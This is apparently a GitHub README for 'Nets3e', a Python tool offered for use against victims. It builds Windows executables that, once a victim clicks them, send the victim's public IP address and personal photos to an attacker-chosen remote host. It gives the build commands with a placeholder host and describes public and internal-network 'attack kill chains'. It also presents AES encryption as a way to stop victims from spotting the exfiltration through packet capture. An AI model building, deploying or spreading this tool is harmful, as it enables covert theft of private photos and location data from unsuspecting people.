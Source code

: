   <div align="center">
<p align="center">
 <img title="Nets3e" src='https://img.shields.io/badge/Nets3e-1.1.2-brightgreen.svg' />
 <img title="Nets3e" src='https://img.shields.io/badge/Python-3.9-yellow.svg' />
  <img title="Nets3e" src='https://img.shields.io/badge/HackerTool-x' />
 <img title="Nets3e" src='https://img.shields.io/static/v1?label=Author&message=@Martin&color=red'/>
 <img title="Nets3e" src='https://img.shields.io/badge/-windows-F16061?logo=windows&logoColor=000'/>
 </p>
  <img height="137px" src="https://github-readme-stats.vercel.app/api?username=MartinXMax&hide_title=true&hide_border=true&show_icons=trueline_height=21&text_color=000&icon_color=000&bg_color=0,ea6161,ffc64d,fffc4d,52fa5a&theme=graywhite" />
  
   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>Obtain the victim's public network IP and personal photos</th>
    <th>Internal shortest path attack</th>
    <th>Add AES encryption to prevent intermediaries from hijacking information [NEW]</th>
</tr>
 
 </table>
</div>


  
## Nets3e Example

``#python3 Nets3e.py -h``

![图片名称](./PT/helpv1.1.2.png) 



```ps:Use '- g' to generate PAYLOAD, but you don't need to specify '- g'```

``#python3 Nets3e.py -rh http://xxxx.com:11111 -g``


![图片名称](./PT/1.png) 

``Follow the prompts in/ Generate two exe executable files from the dist directory``

![图片名称](./PT/2.png) 

_Nets3eClient_debug.exe -> The debug version of internal network attacks is mainly used to test whether internal network victims can reach the local machine_

_Nets3eClient_release.exe -> The release version of public network attacks is mainly used to attack public network users_

## Public network attack

``Victims click on Nets3eClient_release.exe``




![图片名称](./PT/out.png) 

``Attack Kill Chain``

![图片名称](./PT/Chain_Re.png) 

## Internal network attack

``Victims click on Nets3eClient_debug.exe``

``PS:Affected hosts on the internal network will first obtain their own public IP address and then send photos to the internal network host. In fact, the traffic is not forwarded by the server``



![图片名称](./PT/in.png) 

``Attack Kill Chain``

![图片名称](./PT/Chain_Debug.png) 

## Add Salt

``[New] Add the (-salt) parameter, which allows the client to perform AES encryption on your data transmission to prevent it from falling into the hands of intermediaries
Default salt value: LAN local host IP
``

_Nets3e v1.1.1_

``
Directly using BASE64 encoding is very insecure, resulting in victims being able to determine the attacker's behavior by capturing packets
``

![图片名称](./PT/v1.1.1.png) 

![图片名称](./PT/b64.png) 

_Nets3e v1.1.2_

_Using AES encryption significantly increases the difficulty of cracking plaintext, and the victim cannot detect anomalies through packet capture, disguised as normal HTTP requests_

![图片名称](./PT/v1.1.2.png) 

![图片名称](./PT/salt.png) 

